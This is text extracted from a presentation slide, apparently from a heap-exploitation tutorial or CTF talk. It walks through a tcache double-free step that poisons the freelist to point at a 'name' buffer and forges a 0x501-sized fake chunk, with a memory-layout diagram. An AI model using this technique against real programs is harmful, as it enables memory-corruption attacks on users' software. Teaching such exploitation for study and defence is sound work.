

name - 0x010
0
Step2 ： Double Free in tcache bin

ptr = malloc(0x60)
--> 'cccccccc'

free(ptr)
free(ptr)

ptr = malloc(0x60)
--> p64(name_addr - 0x10))

ptr = malloc(0x60)
--> 'dddddddd'

ptr = malloc(0x60)
--> p64(0) + p64(0x501)
--> 'aaaa' * some + p64(name_addr)
name - 0x008
0x501
...
aaaa...
...
aaaa...
ptr
name_addr
...
....
...
...
...
...
name + 0x4F0
0
name + 0x4F8
0x21
name + 0x500
0
name + 0x508
0
name + 0x510
0
name + 0x518
0x21